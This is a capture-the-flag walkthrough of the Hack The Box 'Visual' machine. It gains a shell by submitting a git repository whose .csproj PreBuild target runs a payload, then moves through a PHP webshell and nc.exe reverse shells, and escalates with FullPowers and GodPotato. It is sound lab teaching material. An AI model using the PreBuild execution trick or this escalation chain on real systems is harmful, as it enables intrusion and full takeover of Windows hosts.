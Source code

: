# Visual

## Gaining Access

```
$ nmap -p- --min-rate 3000 10.129.63.153                
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-01 21:35 +08
Nmap scan report for 10.129.63.153
Host is up (0.0084s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 43.87 seconds
```

There's only one HTTP port that's open, so I can start proxying requests with Burp. Did a detailed scan as well:
```
$ nmap -p 80 -sC -sV --min-rate 4000 10.129.63.153      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-01 21:48 +08
Nmap scan report for 10.129.63.153
Host is up (0.0066s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-title: Visual - Revolutionizing Visual Studio Builds
```

I added `visual.htb` to the `/etc/hosts` file as per standard practice.

### Web Enumeration --> PreBuild RCE

As expected from the name of the box, this website was Visual Studio themed.

![](../../.gitbook/assets/htb-visual-image.png)

The machine says that we have to include a Git Repo with a `.sln` file for compilation. The page accepts Git Repo URLs:

![](../../.gitbook/assets/htb-visual-image-1.png)

This looks vulnerable to SSRF, so let's test it by making the machine send a request to our server. This is what a HTTP server would receive:

```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.63.153 - - [01/Oct/2023 21:54:36] code 404, message File not found
10.129.63.153 - - [01/Oct/2023 21:54:36] "GET /info/refs?service=git-upload-pack HTTP/1.1" 404 -
```

So we need to create a `.git` repository with a malicious Visual Studio project. 

The machine explicitly states that .NET 6.0 is supported, and that it only **compiles** the binary. There's no mention anywhere that it will execute it. As such, there's probably a method within VS projects that can make the machine compile, then execute the binary immediately. 

When researching for methods, I came across this, which allows us to execute `.exe` files:

{% embed url="https://learn.microsoft.com/en-us/visualstudio/ide/how-to-specify-build-events-csharp?view=vs-2022" %}

The above allows us to specify commands to be executed before building the project. I tested this by creating a `.sln` project using `dotnet new sln -o rev`. Afterwards, I used `git init` to make it a repository.

This was my `.csproj` file:

```xml
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="shell.exe"/>
  </Target>
</Project>
```

This file can be added using `dotnet sln add test.csproj` and add these files to the `.git` repo:

```bash
git add *
git commit -m "test commit"
```

Afterwards, I used `http://<MY_IP>/.git` to attempt to compile the project. Weirdly, I kept getting a either 404 for `/info/refs?service=git-upload-pack` or the machine complaining that a `.sln` file doesn't exist.

Googling this error just shows this is a permissions issue. Running `git --bare update-server-info` within the `.git` folder will solve both issues. This is because we are trying to access this repository over HTTP, and by default it isn't allowed.  

{% embed url="https://stackoverflow.com/questions/2278888/private-git-repository-over-http"  %}

If done correctly, we would get a ton of GET requests from the machine, and also take quite a while to compile. 

Eventually, would get a shell as `enox`:

![](../../.gitbook/assets/htb-visual-image-2.png)

## Privilege Escalation

This user didn't have much privileges, but they were part of the SERVICE group, which we might need to use later.

```
C:\Users\enox>whoami /all
whoami /all

USER INFORMATION
----------------

User Name   SID                                          
=========== =============================================
visual\enox S-1-5-21-328618757-2344576039-2580610453-1003


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

### WebShell --> Service User

When checking the `C:\xampp\htdocs` directory, we find that we have permissions to write there:

```
C:\xampp\htdocs>icacls index.php
index.php Everyone:(I)(F)
          NT AUTHORITY\SYSTEM:(I)(F)
          BUILTIN\Administrators:(I)(F)
          BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

C:\xampp\htdocs>echo test > test
```

I downloaded a `cmd.php` shell there (since the website was in PHP), and we can get RCE as another user:

![](../../.gitbook/assets/htb-visual-image-3.png)

Getting a reverse shell can be done by downloading `nc.exe` onto the machine and running it.

![](../../.gitbook/assets/htb-visual-image-4.png)

### FullPowers + GodPotato --> Root

`local service` did not have its normal full privileges:

```
C:\xampp\htdocs>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

This is where `FullPowers.exe` comes into play.

{% embed url="https://github.com/itm4n/FullPowers" %}

Running it gives us another `cmd.exe` shell with more privileges, most notably `SeImpersonatePrivilege`. 

![](../../.gitbook/assets/htb-visual-image-5.png)

From here, we can use `godpotato.exe` to run commands as the administrator.

{% embed url="https://github.com/BeichenDream/GodPotato" %}

![](../../.gitbook/assets/htb-visual-image-6.png)

Then, we can just get another reverse shell using `nc.exe` again.

![](../../.gitbook/assets/htb-visual-image-7.png)

Rooted!